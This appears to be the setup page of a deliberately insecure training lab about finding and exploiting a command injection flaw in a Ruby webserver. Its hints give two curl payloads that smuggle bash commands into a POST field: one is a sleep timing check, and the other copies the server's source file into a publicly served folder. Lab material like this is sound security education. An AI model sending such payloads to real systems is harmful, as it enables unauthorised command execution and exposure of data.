 # 🔥 Vulnerable Labs: Setup
*A deliberately insecure application for security education and demos*

---

## Setup

This exercise will test your ability to spot and exploit **Command Injection vulnerabilities**, one of the most dangerous OWASP Top 10 risks.

### 🎯 Your Mission

1. Look at [webserver.rb](../web/webserver.rb)
2. Can you find the command injection vulnerability?
3. Are you able to explain why it's vulnerable?
4. How could you validate that it was an exploitable?

### 💥 Hints & Tips

Try running the following commands, what is the result?

Note: Don't forget to substitute "website_ip" for the Public IP address of your WebServer EC2 instance.

```bash
curl -X POST http://website_ip/score -d '""; bash -c "sleep 5" #'
```

```bash
curl -X POST http://website_ip/score -d '""; bash -c "cat webserver.rb > public/test.txt" #'
```
Note: All files in the public/ folder are accessible from the website_ip/ root. 